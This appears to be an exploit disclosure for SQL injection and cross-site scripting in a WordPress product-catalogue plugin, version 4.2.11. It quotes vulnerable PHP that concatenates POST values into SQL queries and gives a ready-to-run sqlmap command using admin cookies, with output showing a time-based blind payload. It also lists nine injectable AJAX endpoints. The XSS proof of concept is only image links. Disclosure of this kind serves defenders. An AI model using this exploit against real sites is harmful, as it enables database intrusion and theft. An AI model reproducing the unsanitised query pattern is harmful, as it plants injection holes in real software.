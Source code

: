 
#### Exploit Title: WordPress Plugin Product Catalog  SQL Injection / Cross-Site Scripting

#### Exploit Author: ning1022

#### Plugin URI: http://www.EtoileWebDesign.com/plugins/ultimate-product-catalog/


#### Version:  4.2.11

Vulnerability code

```
ultimate-product-catalogue/Functions/Process_Ajax.php

/* Processes the ajax requests being put out in the admin area and the front-end
*  of the UPCP plugin */

// Updates the order of items in the catalogue after a user has dragged and dropped them
function Catalogue_Save_Order() {
	global $catalogue_items_table_name;
	global $wpdb;

	foreach ($_POST['list-item'] as $Key=>$ID) {

		$Result = $wpdb->query("UPDATE $catalogue_items_table_name SET Position='" . $Key . "' WHERE Catalogue_Item_ID=" . $ID);


	}
		
}
add_action('wp_ajax_catalogue_update_order', 'Catalogue_Save_Order');

function Video_Save_Order(){
	global $item_videos_table_name;
	global $wpdb;
	
	foreach ($_POST['video-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $item_videos_table_name SET Item_Video_Order='" . $Key . "' WHERE Item_Video_ID=" . $ID);
	}
}
add_action('wp_ajax_video_update_order','Video_Save_Order');

function Image_Save_Order(){
	global $item_images_table_name;
	global $wpdb;
	
	foreach ($_POST['list-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $item_images_table_name SET Item_Image_Order='" . $Key . "' WHERE Item_Image_ID=" . $ID);
	}
}
add_action('wp_ajax_image_update_order','Image_Save_Order');

function Tag_Group_Save_Order(){
	global $tag_groups_table_name;
	global $wpdb;
	
	foreach ($_POST['list-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $tag_groups_table_name SET Tag_Group_Order='" . $Key . "' WHERE Tag_Group_ID=" . $ID);
	}
}
add_action('wp_ajax_tag_group_update_order','Tag_Group_Save_Order');

function Category_Products_Save_Order(){
	global $items_table_name;
	global $wpdb;
	
	foreach ($_POST['category-product-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $items_table_name SET Item_Category_Product_Order='" . $Key . "' WHERE Item_ID=" . $ID);
	}
}
add_action('wp_ajax_category_products_update_order','Category_Products_Save_Order');

function Custom_Fields_Save_Order(){
	global $fields_table_name;
	global $wpdb;
	
	foreach ($_POST['field-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $fields_table_name SET Field_Sidebar_Order='" . $Key . "' WHERE Field_ID=" . $ID);
	}
}
add_action('wp_ajax_custom_fields_update_order','Custom_Fields_Save_Order');

function Catergories_Save_Order(){
	global $categories_table_name;
	global $wpdb;
	
	foreach ($_POST['category-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $categories_table_name SET Category_Sidebar_Order='" . $Key . "' WHERE Category_ID=" . $ID);
	}
}
add_action('wp_ajax_categories_update_order','Catergories_Save_Order');

function SubCatergories_Save_Order(){
	global $subcategories_table_name;
	global $wpdb;
	
	foreach ($_POST['subcategory-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $subcategories_table_name SET SubCategory_Sidebar_Order='" . $Key . "' WHERE SubCategory_ID=" . $ID);
	}
}
add_action('wp_ajax_subcategories_update_order','SubCatergories_Save_Order');

function Tags_Save_Order(){
	global $tags_table_name;
	global $wpdb;

	foreach ($_POST['tag-list-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $tags_table_name SET Tag_Sidebar_Order='" . $Key . "' WHERE Tag_ID=" . $ID);
	}
}
add_action('wp_ajax_tags_update_order','Tags_Save_Order');



```

 SQL Injection Poc 
 
 
 ```
 ➜  sqlmap-dev git:(master) ✗ python sqlmap.py -u "http://[wordpress]/wp-admin/admin-ajax.php?action=catalogue_update_order"  --dbms mysql --cookie='wordpress_05538288de4800457244fd53c1bf3a45=admin%7C1501751006%7CxRjGC7bEkHMBUbdmN1dLVquUKMAnUEj3DxUbxEPzpy3%7Cca082d9bf78fa404cd99c9d12ec958cfb075257309902d9e420c4e427c27c326; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_05538288de4800457244fd53c1bf3a45=admin%7C1501751006%7CxRjGC7bEkHMBUbdmN1dLVquUKMAnUEj3DxUbxEPzpy3%7C1dd3c0402028c26fcf0b7ac3dbba69b08ffafe341cde416f1d8b424f0861c6e5; wp-settings-1=editor%3Dtinymce%26posts_list_mode%3Dexcerpt%26libraryContent%3Dupload; wp-settings-time-1=1501578206' --data="list-item[1]=1"
 
 
[17:54:08] [INFO] testing connection to the target URL
[17:54:08] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: list-item[1] (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: list-item[1]=1 AND (SELECT * FROM (SELECT(SLEEP(5)))jXfE)
    
    
 
 
 
 ```
 
 
 
 
 
|URL |injection parameter|
|:----|-----   |
|wp-admin/admin-ajax.php?action=catalogue\_update\_order |$_POST['list-item'] |
|/wp-admin/admin-ajax.php?action=video\_update\_order|$_POST['video-item']|
|/wp-admin/admin-ajax.php?action=image\_update\_order|$_POST['list-item']|
|/wp-admin/admin-ajax.php?action=tag\_group\_update\_order|$\_POST['list_item']|
|/wp-admin/admin-ajax.php?action=category\_products\_update\_order|$_POST['category-product-item']|
|/wp-admin/admin-ajax.php?action=custom\_fields\_update\_order|$_POST['field-item']|
|/wp-admin/admin-ajax.php?action=categories\_update\_order|$_POST['category-item']|
|/wp-admin/admin-ajax.php?action=subcategories\_update\_order|$_POST['subcategory-item']|
|/wp-admin/admin-ajax.php?action=tags\_update\_order|$_POST['tag-list-item']|



xss poc:



![](./images/0801_1.png)


![](./images/0801_2.png)











 
 
 
 



